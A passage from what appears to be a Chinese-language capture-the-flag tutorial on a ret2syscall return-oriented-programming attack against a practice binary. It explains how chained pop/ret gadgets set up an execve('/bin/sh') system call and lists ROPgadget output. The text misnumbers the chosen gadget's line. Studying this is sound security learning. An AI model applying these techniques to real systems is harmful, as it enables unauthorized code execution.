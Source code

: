 
过程：溢出后此时返回的地址是pop eax的地址，程序进而转型向该地址执行，此时栈顶的元素为0xb，执行pop eax后eax的值成功地赋值为0xb，接着执行pop eax后一句指令ret，返回下一条指令的地址，需要出栈，正好将程序的执行位置转向了pop ebx所在的位置，重复上述过程，到最后将程序指向了int 0x80处，进行系统调用

那么，如何找到类似的pop eax，ret程序呢——使用工具：ROPgadget

使用如下命令：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

以上可随意选择，为了简单起见，可以选择第4行，即地址为0x080bb196

选择其他的也可以，比如第一行，在地址后面首先放入0xb，再放入addr(/bin/sh),再随意放入8个字符填充esi和edi，再放入填充ecx指令的地址，原理类似，搞清楚执行流程即可

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'

0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
